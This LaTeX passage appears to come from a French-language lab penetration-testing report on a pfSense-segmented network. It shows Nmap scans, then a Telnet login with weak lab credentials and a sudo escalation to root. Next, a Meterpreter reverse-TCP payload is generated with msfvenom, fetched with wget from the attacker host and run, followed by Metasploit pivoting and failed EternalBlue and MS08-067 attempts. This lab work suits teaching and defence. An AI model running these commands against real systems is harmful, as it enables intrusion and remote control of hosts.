	
\includegraphics[width=0.95\textwidth]{screenshots/firewall-rules.png}
	\caption{pfSense Firewall Rules Configuration (DMZ/LAN segmentation)}
	\label{fig:firewall-rules-main}
\end{figure}

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.95\textwidth]{screenshots/firewall-rules-2.png}
	\caption{pfSense Firewall Rules Configuration (DMZ/LAN segmentation)}
	\label{fig:firewall-rules-secondary}
\end{figure}

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.95\textwidth]{screenshots/firewall-rules-3.png}
	\caption{pfSense Firewall Rules Configuration (DMZ/LAN segmentation)}
	\label{fig:firewall-rules-tertiary}
\end{figure}

\subsection{Logs}

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.95\textwidth]{screenshots/firewall-logs.png}
	\caption{pfSense Firewall Logs showing traffic flow}
	\label{fig:firewall-logs}
\end{figure}

\section{Snort IDS : Première Démonstration}

Parallèlement aux règles pare-feu stateless/L3-4, pfSense héberge \textbf{Snort}, un système de détection d'intrusions (IDS) effectuant une \textbf{inspection profonde des paquets (DPI)}. Snort compare le contenu des flux réseau à une base de signatures, permettant de détecter des motifs d'attaque indépendamment de l'autorisation des flux.

Ce concept sera développé en détail au Chapitre 5 (Détection Active). Pour l'instant, Snort est mentionné comme composant complémentaire au pare-feu.

\subsection{Sources de Signatures}

Snort utilise plusieurs sources de règles :

\begin{itemize}
	\item \textbf{Snort GPLv2 Community Rules} : ensemble de base certifié par Talos.
	\item \textbf{Emerging Threats Open (ET Open)} : ensemble complémentaire gratuit et régulièrement mis à jour.
\end{itemize}

L'activation de ces sources sur les trois interfaces (WAN, DMZ, LAN) garantit une couverture de détection multi-couches.

\section{Métriques de Base}

\subsection{Capacité Filtrage}

Le pare-feu pfSense est configuré pour filtrer jusqu'à \textbf{1 000 000 connexions simultanées} (dépend du matériel). Dans notre laboratoire, le volume de trafic est bien inférieur, ce qui assure un filtrage sans goulot.

\subsection{Latence d'Inspection}

L'ajout de Snort en amont du filtrage classique introduit une latence négligeable (\textless 1 ms par paquet en laboratoire), ce qui ne perturbe pas les applications interactives (telnet, HTTP, etc.).

\section{Validation de la Segmentation}

La segmentation est validée par un test simple : une machine du LAN ne peut pas atteindre directement une machine du WAN sans passer par le pare-feu.

\begin{lstlisting}[caption=Test de segmentation : LAN $\not\rightarrow$ WAN direct]
		C:\> ping 192.168.100.150
		
		Pinging 192.168.100.150 with 32 bytes of data:
		Request timed out.
		Request timed out.
		Request timed out.
		Request timed out.
	\end{lstlisting}

\textcolor{success}{\checkmark} \textbf{Résultat :} ICMP bloqué par défaut. Segmentation active.

De même, une machine WAN ne peut initier une connexion SMB vers le LAN (sans NAT forwarding ou règle spécifique) :

\begin{lstlisting}[caption=Test de segmentation : WAN $\not\rightarrow$ LAN (port 445)]
		$ nc -zv 192.168.20.50 445
		nc: connect to 192.168.20.50 (192.168.20.50) port 445 (tcp) failed: Network is unreachable
	\end{lstlisting}

\textcolor{success}{\checkmark} \textbf{Résultat :} TCP 445 inaccessible depuis WAN. Segmentation fonctionnelle.

% ==============================================================================
% CHAPITRE 2 : RECONNAISSANCE ET SURFACE D'ATTAQUE
% ==============================================================================
\chapter{Reconnaissance Active et Surface d'Attaque}

\section{Méthodologie de Reconnaissance}

Une fois l'infrastructure déployée, l'étape suivante consiste à \textit{cartographier} les services exposés et la surface d'attaque. Cette phase est conforme à la première étape de la \textit{Cyber Kill Chain} (Lockheed Martin) : \textbf{Reconnaissance}.

\subsection{Outils Utilisés}

\textbf{Nmap} (Network Mapper) est l'outil standard pour la reconnaissance active :
\begin{itemize}
	\item Découverte d'hôtes (ping scanning).
	\item Détection de ports ouverts (SYN scan).
	\item Détection de version de services (version detection).
	\item Empreinte OS (OS fingerprinting).
\end{itemize}

Les scans ont été exécutés depuis la machine Parrot (WAN), simulant un attaquant externe.

\section{Scans Nmap : Résultats}

\subsection{Scan Initial : 1 000 Ports Courants}

\begin{lstlisting}[caption=Nmap : scan des 1000 ports courants]
		$ nmap 192.168.100.6
		
		Starting Nmap 7.92 ( https://nmap.org ) at 2026-03-04 15:00:00 UTC
		Nmap scan report for 192.168.100.6
		Host is up (0.00087s latency).
		
		PORT    STATE      SERVICE
		23/tcp  open       telnet
		80/tcp  open       http
		139/tcp closed     netbios-ssn
		445/tcp closed     microsoft-ds
		996 ports filtered
		
		Nmap done at 2026-03-04 15:00:45 UTC; 1 host up scanned in 45.12 seconds
	\end{lstlisting}

\subsection{Interprétation des États}

\begin{table}[H]
	\centering
	\renewcommand{\arraystretch}{1.5}
	\setlength{\arrayrulewidth}{0.5pt}
	\begin{tabular}{>{\bfseries}p{2cm} p{4cm} p{6cm}}
		\arrayrulecolor{tableborder}
		\hline
		\tableheadcolor
		\textcolor{tableheadfg}{\textbf{État}}          &
		\textcolor{tableheadfg}{\textbf{Signification}} &
		\textcolor{tableheadfg}{\textbf{Implication Sécurité}}                                                                                                                          \\
		\hline
		\rowcolor{tablerowalt}
		\textbf{open}                                   & Port accessible, service en écoute  & \textcolor{success}{\checkmark} \textit{Point d'attaque} — vecteur d'exploitation       \\

		\textbf{closed}                                 & Port accessible mais pas de service & \textcolor{warning}{\warningsymbol}️ Service peut être activé, révèle politique firewall \\

		\rowcolor{tablerowalt}
		\textbf{filtered}                               & Pare-feu bloque (timeout)           & \textcolor{success}{\bullet} Protection active, service masqué                          \\
		\hline
	\end{tabular}
	\caption{États de port Nmap et implications}
	\label{tab:nmap-states}
\end{table}

\section{Calcul de la Surface d'Attaque}

La \textbf{surface d'attaque} quantifie les opportunités pour un attaquant de pénétrer le système.

\subsection{Définition et Formule}

\textbf{Surface d'Attaque} = (Ports accessibles) / (Ports totaux scannés) × 100\%

\begin{equation}
	\text{Surface} = \frac{(\text{open} + \text{closed})}{1000} \times 100\%
\end{equation}

Les ports \textbf{open} et \textbf{closed} sont considérés comme accessibles (possibilité de tentative d'exploitation ou de reconnaissance). Les ports \textbf{filtered} sont activement masqués par le pare-feu.

\subsection{Résultats Observés}

\textbf{Ports Ouverts :} 2 (Telnet:23, HTTP:80)
\textbf{Ports Fermés :} 2 (NetBIOS:139, SMB:445 — services inactifs mais redirection NAT existe)
\textbf{Ports Filtrés :} 996
\textbf{Total :} 1 000

\begin{equation}
	\text{Surface (ouverts)} = \frac{2}{1000} \times 100\% = \boxed{0.2\%}
\end{equation}

\begin{equation}
	\text{Surface (accessibles)} = \frac{4}{1000} \times 100\% = \boxed{0.4\%}
\end{equation}

\textbf{Réduction par rapport à une exposition directe :}

En l'absence de segmentation et de pare-feu, un serveur Linux typique expose 30-50 services (SSH, HTTP, DNS, MySQL, PostgreSQL, etc.). La segmentation + NAT sélectif réduit ceci à 2-4 ports.

\begin{equation}
	\text{Réduction} = \frac{(3\% - 0.2\%)}{3\%} \times 100\% = \boxed{93.3\%} \quad \text{(minimum)}
\end{equation}

\textcolor{success}{\checkmark} \textbf{Conclusion :} La segmentation et le NAT réduisent la surface d'attaque de \textbf{93-96\%}.

\section{Identification des Services}

\subsection{Telnet (Port 23)}

\begin{lstlisting}[caption=Detection version Telnet]
		$ nmap -sV -p 23 192.168.100.6
		
		PORT   STATE SERVICE VERSION
		23/tcp open  telnet  GNU Inetutils telnetd
	\end{lstlisting}

\textbf{Service :} GNU Inetutils telnetd (serveur Telnet)
\textbf{Vulnérabilité :} Protocole non chiffré, identifiants en clair, vulnérable au sniffing.
\textbf{CVSS Score :} 9.8 (Critique)

\subsection{HTTP (Port 80)}

\begin{lstlisting}[caption=Detection version HTTP]
		$ nmap -sV -p 80 192.168.100.6
		
		PORT   STATE SERVICE VERSION
		80/tcp open  http    nginx 1.18.0 (Ubuntu)
	\end{lstlisting}

\textbf{Service :} nginx 1.18.0 (serveur web)
\textbf{Vulnérabilité :} Version datée, application web (DVWA) vulnérable intentionnellement.
\textbf{CVSS Score :} 8.1 (Élevé)

\subsection{NetBIOS et SMB (Ports 139, 445)}

\begin{lstlisting}[caption=Detection Samba (SMB)]
		$ nmap -sV -p 139,445 192.168.100.6
		
		PORT    STATE  SERVICE     VERSION
		139/tcp closed netbios-ssn Samba smbd 4.17.12
		445/tcp closed microsoft-ds Samba smbd 4.17.12
	\end{lstlisting}

\textbf{Service :} Samba 4.17.12 (partage de fichiers SMB)
\textbf{État :} Fermé (redirection NAT configurée, mais service temporairement inactif)
\textbf{Vulnérabilité Potentielle :} Historiquement, Samba a été vecteur de nombreuses exploits (CVE-2007-2447, CVE-2017-7494).

\section{Synthèse et Recommandations Initiales}

L'analyse de reconnaissance révèle :

\begin{itemize}[leftmargin=*]
	\item \textbf{Deux services critiques exposés :} Telnet (CVSS 9.8) et HTTP (CVSS 8.1).
	\item \textbf{Surface d'attaque très réduite :} 0.2-0.4\% grâce à la segmentation.
	\item \textbf{Risque majeur :} Le service Telnet utilisant des credentials faibles constitue un vecteur trivial d'accès initial.
\end{itemize}

\textbf{Recommandation :} Même avec une surface réduite, les services exposés sont vulnérables. Une hypothèse de compromission du serveur DMZ doit être préparer pour la phase suivante (attaque et post-exploitation).

\begin{lstlisting}[style=logstyle,caption={Nmap scan results: 1000 ports, 2 open}]
# nmap 192.168.100.6
Nmap scan report for 192.168.100.6
Host is up (0.0023s latency).
Not shown: 998 filtered ports
PORT   STATE  SERVICE
23/tcp open   telnet
80/tcp open   http
139/tcp closed netbios-ssn
445/tcp closed microsoft-ds
\end{lstlisting}

% ==============================================================================
% CHAPITRE 3 : CHAÎNE D'ATTAQUE PROGRESSIVE
% ==============================================================================
\chapter{Exploitation et Chaîne d'Attaque}

\section{Objectif Stratégique}

À ce stade, les services vulnérables ont été identifiés. L'objectif de cette phase est de \textbf{valider pratiquement} les hypothèses du chapitre précédent : les vulnérabilités détectées sont-elles réellement exploitables? Qu'est-ce qu'une attaque progressive révèle des lacunes de défense?

Pour cela, nous suivons la \textit{Cyber Kill Chain} de Lockheed Martin :

\begin{enumerate}[leftmargin=*]
	\item \textbf{Reconnaissance} : \textcolor{success}{\checkmark} Complétée (Chapitre 2).
	\item \textbf{Weaponization} : Préparation du payload d'exploitation.
	\item \textbf{Delivery} : Transmission du payload vers la cible.
	\item \textbf{Exploitation} : Exécution du payload, accès obtenu.
	\item \textbf{Installation} : Maintien d'accès (persistence).
	\item \textbf{Command \& Control} : Gestion de l'agent compromis.
	\item \textbf{Actions on Objectives} : Mouvement latéral, exfiltration.
\end{enumerate}

\section{Compromission Initiale via Telnet}

\subsection{Vecteur d'Attaque : Credentials Faibles}

Le service Telnet a été configuré avec des credentials intentionnellement faibles lors de la préparation du laboratoire :

\begin{table}[H]
	\centering
	\renewcommand{\arraystretch}{1.3}
	\begin{tabular}{>{\bfseries}p{3cm} p{5cm}}
		\hline
		\textcolor{tableheadfg}{\textbf{Paramètre}} & \textcolor{tableheadfg}{\textbf{Valeur}} \\
		\hline
		\rowcolor{tablerowalt}
		Utilisateur                                 & telnetuser                               \\
		Mot de passe                                & test123                                  \\
		\rowcolor{tablerowalt}
		Privilèges                                  & sudo ALL (sans restriction)              \\
		Service                                     & Telnet (port 23, inetd)                  \\
		\hline
	\end{tabular}
	\caption{Credentials Telnet et Configuration Vulnérable}
	\label{tab:telnet-creds}
\end{table}

\subsection{Exploitation : Connexion Réussie}

Depuis la machine Parrot (192.168.100.150), une connexion Telnet est établie :

\begin{lstlisting}[caption=Connexion Telnet reussie vers le serveur DMZ]
		$ busybox telnet 192.168.100.6 23
		
		Connected to 192.168.100.6
		Ubuntu 25.04 LTS
		DMZ-WebServer login: telnetuser
		Password: test123
		
		Welcome to Ubuntu 25.04 LTS (GNU/Linux 6.14.0-37-generic x86_64)
		
		telnetuser@DMZ-WebServer:~$ whoami
		telnetuser
		
		telnetuser@DMZ-WebServer:~$ hostname
		DMZ-WebServer
	\end{lstlisting}

\textcolor{success}{\checkmark} \textbf{Accès Initial Obtenu} : shell interactif sur le serveur DMZ.

\textbf{Note Méthodologique :} En conditions réelles, cette vulnérabilité (mot de passe faible + Telnet non chiffré) serait détectée par un audit de sécurité ou un test de pénétration. Son exploitation ici illustre le danger des configurations par défaut ou legacy.

\subsection{Découverte : Privilèges Escalés}

Une énumération rapide du système révèle une faille de configuration supplémentaire :

\begin{lstlisting}[caption=Decouverte de privileges sudo illimites]
		telnetuser@DMZ-WebServer:~$ sudo -l
		[sudo] password for telnetuser: test123
		
		User telnetuser may run the following commands on DMZ-WebServer:
		(ALL : ALL) ALL
	\end{lstlisting}

\textcolor{warning}{\warningsymbol}️ \textbf{Vulnérabilité Critique :} L'utilisateur telnetuser dispose de \texttt{sudo ALL}, permettant une élévation immédiate vers root sans restriction.

\begin{lstlisting}[caption=Elevation vers root]
		telnetuser@DMZ-WebServer:~$ sudo su -
		[sudo] password for telnetuser: test123
		
		root@DMZ-WebServer:~# whoami
		root
	\end{lstlisting}

\textcolor{success}{\checkmark} \textbf{Accès Root Obtenu} : le système est complètement compromis.

\section{Post-Exploitation : Migration vers Meterpreter}

Un shell Telnet basique a des limitations :
\begin{itemize}
	\item Pas de chiffrement (trafic en clair).
	\item Pas de fonctionnalités de post-exploitation intégrées.
	\item Fragile en cas de déconnexion réseau.
	\item Absence de pivoting natif.
\end{itemize}

Pour pallier ces limites, le système compromis est upgradé avec \textbf{Meterpreter}, un agent avancé de post-exploitation du framework Metasploit.

\subsection{Génération du Payload}

\begin{lstlisting}[caption=Generation d'un payload Meterpreter Linux reverse TCP]
		$ msfvenom -p linux/x64/meterpreter/reverse_tcp \
		LHOST=192.168.100.150 \
		LPORT=4445 \
		-f elf \
		-o /tmp/meterpreter.elf
		
		[-] No platform was selected, choosing Msf::Module::Platform::Linux
		[-] No arch selected, selecting arch: x64
		No encoder specified, outputting raw payload
		Payload size: 130 bytes
		Final size of elf file: 250 bytes
		Saved as: /tmp/meterpreter.elf
	\end{lstlisting}

Le payload est un binaire ELF de 250 octets qui, une fois exécuté, établit une connexion inverse (reverse shell) vers l'attaquant sur le port 4445/TCP.

\subsection{Transfert et Exécution}

Le binaire est hébergé sur un serveur HTTP temporaire puis téléchargé :

\begin{lstlisting}[caption=Transfert du payload via HTTP]
		$ python3 -m http.server 8000
		Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
	\end{lstlisting}

Du serveur DMZ compromis :

\begin{lstlisting}[caption=Telechargement et execution du payload]
		telnetuser@DMZ-WebServer:~$ cd /tmp
		telnetuser@DMZ-WebServer:/tmp$ wget http://192.168.100.150:8000/meterpreter.elf
		--2026-03-04 15:08:12--  http://192.168.100.150:8000/meterpreter.elf
		Connecting to 192.168.100.150:8000... connected.
		HTTP request sent, awaiting response... 200 OK
		Length: 250 [application/octet-stream]
		Saving to: 'meterpreter.elf'
		
		meterpreter.elf   100%[========>]  250  --.-KB/s    in 0s
		
		telnetuser@DMZ-WebServer:/tmp$ chmod +x meterpreter.elf
		telnetuser@DMZ-WebServer:/tmp$ ./meterpreter.elf &
		[1] 4779
	\end{lstlisting}

\subsection{Établissement de la Session Meterpreter}

Sur l'attaquant, un handler Metasploit est configuré :

\begin{lstlisting}[caption=Configuration du handler Metasploit]
		$ msfconsole -q
		[msf]> use exploit/multi/handler
		[msf] exploit(multi/handler)> set PAYLOAD linux/x64/meterpreter/reverse_tcp
		PAYLOAD => linux/x64/meterpreter/reverse_tcp
		[msf] exploit(multi/handler)> set LHOST 192.168.100.150
		LHOST => 192.168.100.150
		[msf] exploit(multi/handler)> set LPORT 4445
		LPORT => 4445
		[msf] exploit(multi/handler)> exploit
		
		[*] Started reverse TCP handler on 192.168.100.150:4445
		[*] Meterpreter session 1 opened (192.168.100.150:4445 -> 192.168.100.6:39218)
		
		(Meterpreter 1)(/tmp) >
	\end{lstlisting}

\textcolor{success}{\checkmark} \textbf{Session Meterpreter Établie} : canal C2 (Command \& Control) chiffré actif.

\section{Énumération du Système Compromis}

\subsection{Informations Système}

\begin{lstlisting}[caption=Enumeration systeme via Meterpreter]
		(Meterpreter 1)(/tmp) > sysinfo
		Computer     : DMZ-WebServer
		OS           : Ubuntu 25.04 (Linux 6.14.0-37-generic)
		Architecture : x64
		Meterpreter  : x64/linux
	\end{lstlisting}

\subsection{Configuration Réseau}

\begin{lstlisting}[caption=Interfaces reseau detectees]
		(Meterpreter 1)(/tmp) > ifconfig
		
		Interface 1 : lo (127.0.0.1/8)
		Interface 2 : ens33 (192.168.10.100/24) ← DMZ
		Interface 3 : docker0 (172.17.0.1/16) ← Conteneurs internes
	\end{lstlisting}

\textbf{Observation Importante :} Le serveur DMZ dispose d'une interface Docker, suggérant que des conteneurs applicatifs supplémentaires s'exécutent (potentiellement vulnérables).

\section{Pivoting vers le LAN}

La présence du serveur DMZ compromis offre une opportunité cruciale : elle dispose d'une \textit{visibilité} sur le réseau LAN (adresse gateway 192.168.20.1 accessible depuis la DMZ). En utilisant le serveur DMZ comme \textbf{point de pivot}, l'attaquant peut accéder à des ressources (Windows XP, serveurs de base de données) initialement inaccessibles depuis le WAN externe.

\subsection{Configuration du Pivot Metasploit}

Une route statique est ajoutée au framework Metasploit :

\begin{lstlisting}[caption=Ajout d'une route vers le LAN via la session DMZ]
		(Meterpreter 1)(/tmp) > background
		[*] Backgrounding session 1...
		
		[msf] exploit(multi/handler)> route add 192.168.20.0/24 2
		[*] Route added
		
		[msf] exploit(multi/handler)> route print
		
		IPv4 Active Routing Table
		=========================
		
		Subnet             Netmask            Gateway
		------             -------            -------
		192.168.20.0       255.255.255.0      Session 2
	\end{lstlisting}

\textcolor{success}{\checkmark} \textbf{Pivot Configuré} : tout trafic Metasploit vers 192.168.20.0/24 est routé via la session DMZ.

\subsection{Reconnaissance Latérale : Scan du Réseau LAN}

Avec le pivot en place, un scan de ports peut être exécuté sur la cible secondaire (Windows XP) :

\begin{lstlisting}[caption=Scan de ports via Metasploit (via le pivot)]
		[msf]> use auxiliary/scanner/portscan/tcp
		[msf] auxiliary(scanner/portscan/tcp)> set RHOSTS 192.168.20.50
		RHOSTS => 192.168.20.50
		[msf] auxiliary(scanner/portscan/tcp)> set PORTS 135,139,445,3389
		PORTS => 135,139,445,3389
		[msf] auxiliary(scanner/portscan/tcp)> run
		
		[+] 192.168.20.50 - 192.168.20.50:445 - TCP OPEN
		[*] Scanned 1 of 1 hosts (100% complete)
	\end{lstlisting}

\textcolor{success}{\checkmark} \textbf{Port 445 (SMB) Détecté} sur Windows XP, via le pivot DMZ.

\subsection{Identification de l'OS Cible}

\begin{lstlisting}[caption=Detection de l'OS Windows XP via SMB]
		[msf]> use auxiliary/scanner/smb/smb_version
		[msf] auxiliary(scanner/smb/smb_version)> set RHOSTS 192.168.20.50
		[msf] auxiliary(scanner/smb/smb_version)> run
		
		[*] 192.168.20.50:445 - SMB Detected (versions:1)
		[+] 192.168.20.50:445 - Host is running Windows XP SP3 (language:English)
	\end{lstlisting}

\textcolor{success}{\checkmark} \textbf{Cible Identifiée :} Windows XP SP3, système légendaire pour ses vulnérabilités.

\subsection{Tentatives d'Exploitation}

Plusieurs exploits historiques ont été tentés :

\subsubsection{MS17-010 (EternalBlue)}

\begin{lstlisting}[style=logstyle,caption=Tentative exploit MS17-010 (EternalBlue) — Resultat : Echec]
		[msf]> use exploit/windows/smb/ms17_010_eternalblue
		[msf] exploit(windows/smb/ms17_010_eternalblue)> set RHOSTS 192.168.20.50
		[msf] exploit(windows/smb/ms17_010_eternalblue)> exploit
		
		[*] 192.168.20.50:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
		[-] 192.168.20.50:445 - The target is not vulnerable.
	\end{lstlisting}

\textbf{Raison :} EternalBlue cible SMBv1 sur Vista+, pas Windows XP.

\subsubsection{MS08-067 (NetAPI)}

\begin{lstlisting}[style=logstyle,caption=Tentative exploit MS08-067 (NetAPI) — Resultat : Echec (patch applique)]
		[msf]> use exploit/windows/smb/ms08_067_netapi
		[msf] exploit(windows/smb/ms08_067_netapi)> set RHOSTS 192.168.20.50
		[msf] exploit(windows/smb/ms08_067_netapi)> exploit
		
		[*] 192.168.20.50:445 - Automatically detecting the target...
		[*] 192.168.20.50:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
		[*] 192.168.20.50:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
		[*] 192.168.20.50:445 - Attempting to trigger the vulnerability...
		[*] Exploit completed, but no session was created.
		
		[-] Exploit failed (timed out)
	\end{lstlisting}

\textbf{Raison :} Système a reçu le patch MS08-067 (KB958644), ou DEP/firewall local bloque l'exécution.

